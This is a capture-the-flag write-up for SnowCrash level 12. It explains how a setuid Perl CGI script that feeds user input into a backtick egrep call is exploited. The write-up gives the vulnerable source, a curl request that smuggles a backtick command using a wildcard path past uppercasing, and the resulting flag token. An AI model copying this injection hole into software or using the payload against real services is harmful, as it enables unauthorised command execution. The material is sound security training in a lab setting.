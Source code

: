 # Level 12

- We login as user level11.
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

- A perl script has been left to us, let's `cat level12.pl`:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

- The script appears to be designed to be executed by a [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) through a service listening on localhost through port 4646. It takes two parameters that are passed to the `t()` function, the return of this latter is used to `print()` a message accordingly.


- The `t()` function will change all lowercase characters contained in its first parameter to uppercase, then it will erase any character following a space. The resulting string (`$xx`) will be used by `egrep "^$xx" /tmp/xd 2>&1`.


- Because of `$xx =~ tr/a-z/A-Z/;` we cannot directly send `x=;getflag>/tmp/level12.flag` because all our characters will be transformed into uppercase, so:
```
level12@SnowCrash:~$ ss -tunlp | grep 4646
tcp    LISTEN     0      128                   :::4646                 :::*
```

```
level12@SnowCrash:~$ echo "getflag > /tmp/level12.flag" > /tmp/EXPLOIT
```

```
level12@SnowCrash:~$ chmod +x /tmp/EXPLOIT
```

```
level12@SnowCrash:~$ curl -X POST -d "x=\`/*/EXPLOIT\`" http://127.0.0.1:4646
```

```
level12@SnowCrash:~cat /tmp/level12.flag46
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

```
level12@SnowCrash:~$ su level13
Password:g1qKMiRpXf53AWhDaU7FEkczr
level13@SnowCrash:~$
```
